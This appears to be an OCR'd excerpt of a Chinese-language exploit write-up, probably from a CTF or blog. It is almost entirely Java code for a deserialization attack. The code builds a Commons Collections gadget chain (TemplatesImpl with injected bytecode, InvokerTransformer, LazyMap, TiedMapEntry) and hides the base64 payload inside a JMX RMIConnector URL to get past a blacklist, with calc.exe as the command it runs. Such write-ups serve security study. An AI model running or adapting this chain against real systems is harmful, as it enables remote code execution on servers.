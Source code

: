 ```java
        constructor.setBody("java.lang.Runtime.getRuntime().exec(\"calc.exe\");");
        //java.lang.Runtime.getRuntime().exec("calc");
        helloAbstract.addConstructor(constructor);
        byte[] bytes=helloAbstract.toBytecode();
        helloAbstract.detach();
        return bytes;

    }

    public static HashMap getObject() throws Exception{
        byte [] evilbtes=getbyte();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{evilbtes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }
}
```

![image-20230910105232830](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230910105232830.png)

### 找谁调用了`transform `   （lazymap#get)

发现lazymap还没被过滤，那就用它

```java
 ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();
        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);
       // invokerTransformer.transform(rmiConnector);

        Map decorate = LazyMap.decorate(new HashMap(), invokerTransformer);
        decorate.get(rmiConnector);
```
